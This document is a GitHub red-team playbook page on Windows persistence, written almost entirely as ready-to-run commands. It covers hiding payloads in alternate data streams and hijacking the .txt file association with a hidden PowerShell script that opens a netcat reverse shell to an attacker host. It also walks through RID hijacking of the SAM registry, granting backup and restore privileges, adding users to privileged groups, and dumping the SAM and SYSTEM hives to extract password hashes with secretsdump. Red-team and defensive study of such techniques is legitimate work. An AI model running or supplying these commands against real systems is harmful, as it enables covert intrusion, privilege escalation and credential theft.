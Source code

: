# 5.1 Persistence

## Table of Contents

- [Alternate Data Stream Files (ADS)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Alternate-Data-Stream-Files-ADS)
- [Hijack File Associations](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Hijack-File-Associations)
- [Normal.dotm](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Normaldotm)
- [Relative ID (RID) Hijacking](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Relative-ID-RID-Hijacking)
- [Special Privileges and Security Descriptors](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Special-Privileges-and-Security-Descriptors)
- [User Group Manipulation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#User-Group-Manipulation)

## Alternate Data Stream Files (ADS)

```c
C:\> echo <PAYLOAD> > %USERPROFILE%\AppData:<FILE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/ads1.png">
</p>

### Listing ADS Files

```c
C:\> dir /r /a %USERPROFILE%\AppData\
```

### Deleting ADS Files

> https://live.sysinternals.com/

```c
C:\> .\streams64.exe -s C:\PATH\TO\FOLDER\
C:\> .\streams64.exe -d C:\PATH\TO\FOLDER\
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/ads2.png">
</p>

## Hijacking File Associations

Registry Path.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\
```

Now search for the desired `file extention` and change the `Programmatic ID (ProgID)`.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command
```

Then build a `PowerShell Script` and place it anywhere on the target.

```c
Start-Process -NoNewWindow "C:\temp\nc64.exe" "-e cmd.exe <LHOST> <LPORT>"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Next change the `Registry Key` to point to the script.

```c
powershell -windowstyle hidden C:\Windows\System32\<FILE>.ps1 %1
```

## Normal.dotm

Add a macro to the `Normal.dotm` which get's executed whenever `any` document is opened.

## Relative ID (RID) Hijacking

Get the current `RIDs`.

```c
PS C:\> wmic useraccount get name,sid
```

```c
Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
```

Edit the `registry` by using `PsExec64.exe` to add the `RID` of `500`, which is a `Local Administrator` to another user.

```c
PS C:\> PsExec64.exe -i -s regedit
```

Path in Registry.

```c
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\
```

Under the corresponding key, there will be a vlaue called `F`, which holds the user's effective `RID`. Those are stored
by using `little-endian` notation, so the bytes appear `reversed`.

```c
500 = 0x01F4
```

Switched Bytes.

```c
F401
```

Save it and on the next login, the user should get `RID 500` assigned.

## Special Privileges and Security Descriptors

### Edit Special Privileges

Add `SeBackupPrivilege` and `SeRestore Privilege` to a user.

Export the configuration file.

```c
PS C:\> secedit /export /cfg config.inf
```

Edit the file and add the `username`.

```c
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,<USERNAME>
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,<USERNAME>
```

Convert the `.inf` file into a `.sdb` file and load the configuration back into the system.

```c
PS C:\> secedit /import /cfg config.inf /db config.sdb
PS C:\> secedit /configure /db config.sdb /cfg config.inf
```

### Enable WinRM Security Descriptor

Open the `permission window` and add a user, which should granted `Full Control` in order to `remote login`.

```c
PS C:\> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

## User Group Manipulation

Add user to `Local Administrators` group.

```c
PS C:\> net localgroup administrators <USERNAME> /add
```

Add user to `Backup Operators` group.

```c
PS C:\> net localgroup "Backup Operators" <USERNAME> /add
```

Add user to `Remote Desktop Users` group.

```c
PS C:\> net localgroup "Remote Management Users" <USERNAME> /add
```

Disable `LocalAccountTokenFilterPolicy`.

```c
PS C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Dumping `SAM` and `SYSTEM` files with `Backup Operator` privileges.

```c
PS C:\> reg save hklm\system system.bak
```

```c
PS C:\> reg save hklm\sam sam.bak
```

```c
$ impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)

### Next

- [5.2 Situational Awareness](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md)
